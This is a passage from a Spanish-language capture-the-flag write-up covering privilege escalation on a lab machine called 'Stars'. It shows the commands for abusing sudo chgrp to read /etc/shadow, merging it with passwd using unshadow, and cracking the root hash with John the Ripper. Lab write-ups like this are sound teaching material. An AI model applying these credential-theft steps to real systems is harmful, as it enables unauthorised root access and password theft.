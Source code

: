 ```bash
sophie@debian:~$ ls -la /etc/shadow
-rw-r----- 1 root shadow 859 Oct 17  2021 /etc/shadow
```

Peeeero, contamos con el objeto travieso que modifica grupos, indiquémosle que ahora nosotros (`sophie`) sea la dueña del grupo que puede leer y no **shadow**:

```bash
sudo -u root /usr/bin/chgrp sophie /etc/shadow
```

Validamoooooos:

```bash
sophie@debian:~$ ls -la /etc/shadow
-rw-r----- 1 root sophie 859 Oct 17  2021 /etc/shadow
```

PEEERRRFECTOOOO, y si ahora intentamos listar su contenidoooooo:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/stars/Stars_sophieSH_cat_etcSHADOWasSOPHIE.png" style="width: 100%;"/>

Tamos dentro mis reyes!

Ahora tomemos ese contenido, creemos un archivo en nuestra máquina de atacante llamado **shadow** (o como quieras) y peguemos la info ahí. Haremos lo mismo para el objeto **passwd**, finalmente tendremos:

```bash
 ls
passwd  shadow
```

Y ahora el truco, mediante la herramienta [unshadow](https://www.cyberciti.biz/faq/unix-linux-password-cracking-john-the-ripper/) juntaremos los resultados en un solo archivo:

```bash
unshadow passwd shadow > file_to_crack
```

Y ahora, con ayuda de `John The Ripper` le pasaremos dos cosas, una wordlist (que sería la lista de posibles contraseñas) y el archivo que acabamos de generar a ver si logra romper el hash:

```bash
john -w:/usr/share/wordlists/rockyou.txt file_to_crack
```

YyyyyyyyyYYYYY:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/stars/Stars_bash_JOHNcrackedSHADOWfile.png" style="width: 100%;"/>

VEMOS LA CONTRASEÑA SIN CIFRAR DEL USUARIO `root`!!! Validemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/stars/Stars_sophieSH_su_rootSH.png" style="width: 100%;"/>

Y listos, somos **root**, chequeemos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/stars/Stars_flags.png" style="width: 100%;"/>

...

Máquina juguetona, me gusto mucho el tema del scripting, el retarnos a aprender y mejorar. Y ya saben, no dejen archivos en cookies 🤣

Nos leemos en otra ocasión, siempre se aprende, SIEMPRE! A darle duro y a romper de todooooooooooo!